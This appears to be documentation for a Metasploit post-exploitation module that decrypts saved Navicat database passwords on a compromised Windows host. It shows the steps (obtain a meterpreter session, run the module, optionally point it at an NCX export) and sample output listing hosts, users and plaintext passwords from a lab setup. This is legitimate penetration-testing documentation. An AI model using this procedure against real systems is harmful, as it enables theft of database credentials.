 ## Vulnerable Application

This module can decrypt the password of navicat, If the user chooses to remember the password.

  Analysis of encryption algorithm [here](https://github.com/HyperSine/how-does-navicat-encrypt-password).

  You can find its official website [here](https://navicat.com/).

## Verification Steps

  1. Download the latest installer of Navicat.
  2. Use navicat to log in to DB server.
  3. Remember to save the account password.
  4. Get a `meterpreter` session on a Windows host.
  5. Do: ```run post/windows/gather/credentials/navicat```
  6. If the session file is saved in the system, the host, port, user name and plaintext password will be printed.

## Options

 **NCX_PATH**

  - Specify the path of the NCX export file. e.g.:connections.ncx

## Scenarios

```
meterpreter > run post/windows/gather/credentials/navicat 

*] Gathering Navicat password information from WIN-79MR8QJM50N 
Navicat Sessions 
================                                                                                                                                        
Name            Protocol  Hostname   Port   Username  Password                                                                                                 
----            --------  --------   ----   --------  --------                                                                                                 
mongodb         mongodb   localhost  27017  user      password  
test_mysql      mysql     localhost  3306   root      test_mysql_password 
test_oracle     oracle    127.0.0.1  1521   user      password
test_pg         postgres  localhost  5432   postgres  test_pg_password
test_sqlserver  mssql     127.0.0.1  1433   user      password

[+] Session info stored in: /home/kali-team/.msf4/loot/20221002233644_default_192.168.80.128_host.navicat_ses_919319.txt
[*] Post module execution completed
meterpreter > 
```

* Specify **NCX_PATH**

```
msf6 post(windows/gather/credentials/navicat) > set ncx_path C:\\Users\\FireEye\\Desktop\\connections.ncx
ncx_path => C:\Users\FireEye\Desktop\connections.ncx
msf6 post(windows/gather/credentials/navicat) > run

[*] Gathering Navicat password information from WIN-79MR8QJM50N
[*] Looking for C:\Users\FireEye\Desktop\connections.ncx
[+] navicat.ncx saved to /home/kali-team/.msf4/loot/20221002234356_default_192.168.80.128_navicat.creds_838577.txt
Navicat Sessions
================

Name            Protocol    Hostname   Port   Username  Password
----            --------    --------   ----   --------  --------
mongodb         mongodb     localhost  27017            password
test_mysql      mysql       localhost  3306             test_mysql_password
test_oracle     oracle      127.0.0.1  1521             password
test_pg         postgresql  localhost  5432             test_pg_password
test_sqlserver  sqlserver   127.0.0.1  1433             password

[+] Session info stored in: /home/kali-team/.msf4/loot/20221002234356_default_192.168.80.128_host.navicat_ses_522370.txt
[*] Finished processing C:\Users\FireEye\Desktop\connections.ncx
[*] Post module execution completed


```